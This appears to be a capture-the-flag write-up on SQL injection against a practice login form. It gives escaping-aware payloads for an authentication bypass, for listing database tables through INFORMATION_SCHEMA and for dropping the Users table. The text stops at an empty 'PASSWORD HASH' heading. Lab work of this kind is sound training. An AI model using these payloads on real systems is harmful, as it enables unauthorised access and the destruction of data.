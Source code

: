 ```
CHALLENGE COMPLETE: Tampering with SQL Queries for Information Disclosure: 10 points
```

### BYPASSING AUTHENTICATION

So now that we have some details about the SQL query being used, let's see if
we can bypass the authentication check.

```
SELECT * FROM Users WHERE username = '\\'' AND passhash = '6acdcb3cb13891c3138d19ef2799d56a151c9bbf'
```

We see that there is a `username=foo AND passhash=bar` pattern. What if we can
comment out the `AND passhash` check?

```
test\'# ==> Authentication failed for user test\\'#
test\' and 1=1 ==> SELECT * FROM Users WHERE username = 'test\\' AND 1=1' AND passhash = '3c363836cf4e16666669a25da280a1865c2d2874'
```

We need to first find a way to break out of the user string, but there seems to
be some escaping that happens since everytime we try to use the `'` character
it complains about `Authentication failed for user test\'`.

```
\' OR  1=1#
```

```
CHALLENGE COMPLETE: SQL Injection Authentication Bypass: 300 points
```

### VIEW DATABASE TABLES

Let's see what other SQL we can inject..

```
\'; SELECT * FROM INFORMATION_SCHEMA.TABLES;#
```

```
CHALLENGE COMPLETED: Modify SQL Database via SQL Injection (Login Field): 300 points
```

### DROP TABLE

We have discovered there is a table `Users` based on the SQL error caused by
out attempted SQL injections. Maybe we can try to drop the table?

```
\' OR 1=1; DROP TABLE Users;#
\'; DROP TABLE Users;#
```

### PASSWORD HASH
